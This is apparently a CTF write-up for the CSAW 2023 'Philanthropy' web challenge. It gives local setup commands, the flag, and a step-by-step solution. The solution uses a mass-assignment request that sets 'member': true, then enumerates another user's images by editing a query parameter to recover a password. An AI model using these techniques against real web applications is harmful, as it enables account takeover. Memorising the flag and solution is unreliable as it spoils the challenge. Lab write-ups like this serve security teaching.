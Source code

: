 # Philanthropy

- source code: [CSAW-CTF-2023-Quals/web/philanthropy at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/web/philanthropy)

## Setup

```bash
sed -i -e 's/13336/4657/g' docker-compose.yml
docker-compose up
echo 127.0.0.1 web.csaw.io | tee -a /etc/hosts
```

## Flag

csawctf{K3pt_y0u_Wa1t1ng_HUh}

## Solution

1. Sign up and Login user

1. Add `"member": true` key:value in POST http://web.csaw.io:14180/identity/update (Mass Assignment Vulnerability)

    request:
    ```text
    POST /identity/update HTTP/1.1
    Host: web.csaw.io:14180
    Content-Length: 79
    Content-Type: application/json
    Cookie: access_token_cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTY0MzY3NSwianRpIjoiMzY2MzM4NDMtZWYzNy00ZDBiLWE1ZmMtMzUyZTRmZmQ5OTZjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InRlc3QxQGV4YW1wbGUuY29tIiwibmJmIjoxNjk1NjQzNjc1LCJleHAiOjE2OTU2NDQ1NzUsIm1lbWJlciI6dHJ1ZX0.mEpDfwkLblui-Yj_ASkp2rMljgEXBhWNsku5FU5HVXQ
    
    {"username":"test1@example.com","first_name":"a","last_name":"c","member":true}
    ```

1. Opening [Identify](http://web.csaw.io:14180/web/identify), I can see GET http://web.csaw.io:14180/identity/images?user=%22otacon@protonmail.com%22 request.
   There is the email address `solidsnake@protonmail.com` in response.
   
    ```console
    root@kali:~/ctf/CSAW-CTF-2023-Quals/web/philanthropy# curl -s http://web.csaw.io:14180/identity/images?user=%22otacon@protonmail.com%22 | jq
    {
      "msg": [
    (snip)
        {
          "credit": "solidsnake@protonmail.com",
          "filename": "a267d18b-e1b1-4fc4-9fa9-97df1b55b7c2.png",
          "mg_model": "RAY",
          "submitter": "otacon@protonmail.com"
        },
    ```
      
   So requests http://web.csaw.io:14180/identity/images?user=%22solidsnake@protonmail.com%22 with changing parameter.

    ```console
    root@kali:~/ctf/CSAW-CTF-2023-Quals/web/philanthropy# curl http://web.csaw.io:14180/identity/images?user=%22solidsnake@protonmail.com%22
    {"msg":[{"credit":"N/A","filename":"b6116d5a-a415-4438-8f43-2b4cb648593e.png","mg_model":"NULL","submitter":"solidsnake@protonmail.com"}]}
    ```

    Opening http://web.csaw.io:14180/images/b6116d5a-a415-4438-8f43-2b4cb648593e.png, there is Snake's password.So login Snake's credential, then open [Flag](http://web.csaw.io:14180/web/flag) to get flag.
